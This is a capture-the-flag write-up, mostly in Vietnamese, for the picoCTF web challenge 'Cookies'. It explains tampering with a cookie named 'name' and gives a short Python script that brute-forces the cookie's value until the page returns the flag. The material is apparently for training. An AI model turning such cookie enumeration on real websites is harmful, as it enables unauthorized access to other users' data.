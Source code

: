 Cookies
===
**Category**: Web

**Author**: MADSTACKS

### Description
Who doesn't love cookies? Try to figure out the best one.

### Overview
- Đầu tiên truy cập vào website thì chúng ta thấy được có một ô để chúng ta input vào chương trình và đại loại như là tìm kiếm cookie mà nó được lưu trong server. Mình thử nhập một vài kí tự bất kì để tìm kiếm thì nhận được thông báo `That doesn't appear to be a valid cookie.`
- Kiểm tra cookie bằng edit this cookie thì thấy có một cookie có tên là `name` và value của nó là `-1`. Mình thử thay đổi nó thành `1` thì nhận được thông báo `I love chocolate chip cookies!`

### Solution
- Ý tưởng là thay đổi value của cookie `name`  đến khi nào có flag vì vậy mình đã viết một script để làm việc này. (Brute value của name)

##### Payload
```py
import requests

url = 'URL:PORT/check'

for i in range(17,100):
    print(i)
    cookies = {'name':f'{i}'}
    print(cookies)
    r = requests.get(url = url, cookies = cookies)
    if 'picoCTF' in r.text:
        print(r.text)
        exit()
```